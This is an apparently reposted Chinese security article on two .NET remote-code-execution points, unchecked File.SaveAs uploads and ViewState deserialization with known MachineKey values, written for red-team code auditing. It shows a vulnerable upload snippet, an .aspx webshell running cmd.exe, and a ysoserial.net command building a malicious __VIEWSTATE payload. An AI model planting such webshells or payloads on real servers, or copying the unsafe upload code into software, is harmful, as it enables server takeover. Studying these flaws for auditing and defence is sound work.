> **原文链接**: https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247499937&idx=2&sn=be359f4df9c01e75d99bf6c17a5a38c9

#  .NET 介绍一种新型 RCE 利用点分析与漏洞挖掘思路  
原创 专攻.NET安全的  dotNet安全矩阵   2025-06-23 00:31  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队对目标进行 Web 渗透测试、权限维持与横向移动前期，代码审计往往是至关重要的技术环节。特别是在 .NET Web 应用中，存在一些极具价值的攻击面，可以直接达成远程代码执行，进而控制服务器。其中最常见、最值得关注的两个函数点就是：File.Save 文件上传逻辑和 ViewState 状态管理逻辑中的反序列化。  
  
**01. File.Save 上传**  
  
  
  

```
File.SaveAs()
```

  
 是 .NET 中常见的文件保存方法，通常用于处理上传请求。如果对文件名、扩展名、路径等缺乏有效控制，则极易导致**任意文件上传漏洞**  
。一旦攻击者能上传 
```
.aspx
```

  
 等可执行脚本，即可直接访问 WebShell 实现远程命令执行，具体可参考如下代码。  
  

```
if(Request.Files[&#34;upload&#34;]!=null)
{
var file = Request.Files[&#34;upload&#34;];
string savePath = Server.MapPath(&#34;~/uploads/&#34;+ file.FileName);
    file.SaveAs(savePath);
}

```

  
  
该代码段没有对文件名、扩展名、路径进行任何校验，存在明显安全隐患。  
审计  
重点：是否对 file.FileName 进行了扩展名白名单校验？是否过滤了路径  
穿越符号？是否上传到具备脚本解析权限的目录下？是否允许上传 .aspx、.ashx 等执行型脚本？  
  
红队可构造如下 
```
.aspx
```

  
 木马脚本  
  

```
<%@ Page Language=&#34;C#&#34;%>
<% System.Diagnostics.Process.Start(&#34;cmd.exe&#34;,&#34;/c whoami > c:\\whoami.txt&#34;);%>

```

  
  
将其上传至目标站点的 
```
~/uploads/
```

  
 目录下，命名为 
```
shell.aspx
```

  
，随后通过浏览器访问：  
  

```
http://target/uploads/shell.aspx

```

  
  
即可在目标服务器上执行命令，完成 RCE 攻击。  
  
**02.ViewState反序列化**  
  
  
  
.NET WebForms 使用 ViewState 实现服务端与客户端之间的状态同步。正常情况下，ViewState 使用 MachineKey 加签以防止被篡改。但若存在如下情况：页面配置 
```
EnableViewStateMac=&#34;false&#34;
```

  
；Web.config 中 MachineKey 固定（可被预测或暴力）；攻击者已知 MachineKey 的值。  
  
攻击者则可以构造恶意 ViewState 载荷，触发服务端反序列化，从而远程执行命令，如下配置存在安全隐患。  
  

```
<pages enableViewState=&#34;true&#34; viewStateEncryptionMode=&#34;Always&#34;/>
<machineKey validationKey=&#34;A1B2C3D4...固定值&#34; decryptionKey=&#34;D4C3B2A1...&#34; validation=&#34;SHA1&#34; decryption=&#34;AES&#34;/>

```

  
  
若 validationKey 和 decryptionKey 为公开或弱值，攻击者可以伪造任意合法签名 ViewState。攻击者可使用 
```
ysoserial.net
```

  
 工具生成恶意序列化载荷：  
  

```
ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c &#34;calc&#34;-o base64

```

  
  
将生成的 Base64 载荷作为 
```
__VIEWSTATE
```

  
 字段值提交至页面，服务端在还原 ViewState 时将执行攻击者指定的命令如启动计算器。  
  
无论是在客户端上传场景，还是服务器端状态反序列化场景中，
```
File.Save
```

  
 和 
```
ViewState
```

  
 都是.NET Web 应用中最容易被攻击者利用实现远程命令执行的关键位置。  
  
**03. 扩展的危险方法**  
  
  
  
除了 
```
File.SaveAs()
```

  
 和 
```
ViewState
```

  
 反序列化之外，在 .NET Web 应用中，**另一个常见的可实现远程代码执行的方法，具体详情请看如下视频演示。**  
  
